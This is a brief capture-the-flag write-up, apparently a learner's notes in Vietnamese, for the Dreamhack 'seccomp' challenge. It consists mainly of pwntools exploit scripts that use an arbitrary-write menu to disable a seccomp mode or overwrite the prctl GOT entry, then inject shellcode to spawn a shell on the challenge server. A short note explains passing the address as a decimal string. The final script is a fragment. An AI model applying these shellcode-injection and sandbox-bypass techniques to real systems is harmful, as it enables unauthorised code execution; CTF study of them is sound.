 ```

```

script : 

```
#!/usr/bin/python3

from pwn import *
context.binary = exe = ELF('./seccomp',checksec=False)
#p = process()
p = remote('host3.dreamhack.games', 19961)
mode = 0x602090
shellcode =asm(shellcraft.sh())
gdb.attach(p,gdbscript='''
           b*main+300
           b*main+337
           b*main+247
           ''')
input()
p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'addr: ',str(mode))
p.sendlineafter(b'value: ',b'2')
p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'shellcode: ',shellcode)
p.sendlineafter(b'> ',b'2')

p.interactive()
```

- có 1 đoạn mình chưa hiểu là tại sao lại truyền str(mode) mà không phải p64 hay bytes ?
- vì ở đây scanf(%ld) long int . và khi ta truyền (0x602090=6299792)  str(0x602090) = ‘6299792’ . nó mới có thể hiểu được

tham khảo các script khác :

```
from pwn import *

#p = process('./seccomp')
p = remote("host1.dreamhack.games", 8253)
e = ELF('./seccomp')

context.arch = 'amd64'

p.sendlineafter('> ', '3')
p.sendlineafter(': ', str(e.got['prctl']))
p.sendlineafter(': ', str(0x400A67))

shellcode = shellcraft.amd64.sh()
shellcode = asm(shellcode)

p.sendlineafter('> ', '1')
p.sendafter(': ', shellcode)

p.sendlineafter('> ', '2')
p.interactive()
```
->>>>
```
from pwn import*

p = remote('host1.dreamhack.games', '8247')
#p = process('./target', env={'LD_PRELOAD':'./libc.so.6'})
e = ELF('./target')
context.arch = 'x86_64'
```